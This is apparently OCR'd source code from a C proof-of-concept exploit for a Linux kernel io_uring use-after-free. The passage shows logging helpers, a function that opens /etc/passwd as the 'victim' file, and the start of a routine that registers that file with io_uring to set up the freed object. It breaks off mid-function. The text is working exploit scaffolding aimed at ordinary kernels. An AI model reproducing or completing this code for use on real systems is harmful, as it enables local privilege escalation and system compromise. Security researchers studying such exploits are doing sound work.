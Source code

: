 ```
    }

    fprintf(stderr, "%s", "[!] ");
    va_list args;
    va_start(args, format);
    vfprintf(stderr, format, args);
    va_end(args);
    fprintf(stderr, ": %s\n", strerror(errno));

    sleep(5);
    exit(EXIT_FAILURE);
}

void info(const char* format, ...)
{
    if (!format) {
        return;
    }
    
    fprintf(stderr, "%s", "[*] ");
    va_list args;
    va_start(args, format);
    vfprintf(stderr, format, args);
    va_end(args);
    fprintf(stderr, "%s", "\n");
}

// Get FD for test file
int get_test_fd(int victim)
{
    // These are just different for kernel debugging purposes
    char *file = NULL;
    if (victim) { file = "/etc//passwd"; }
    else { file = "/etc/passwd"; }

    int fd = open(file, O_RDONLY);
    if (fd < 0)
    {
        err("`open()` failed, file: %s", file);
    }

    return fd;
}

// Set-up the file that we're going to use as our victim object
void alloc_victim_filp(void)
{
    // Open file to register
    g_uaf_fd = get_test_fd(1);
    info("Victim fd: %d", g_uaf_fd);

    // Register the file
    int ret = io_uring_register_files(&g_ring, &g_uaf_fd, 1);
    if (ret)
    {
        err("`io_uring_register_files()` failed");
    }

    // Get hold of the sqe
    struct io_uring_sqe *sqe = NULL;
    sqe = io_uring_get_sqe(&g_ring);
    if (!sqe)
    {
```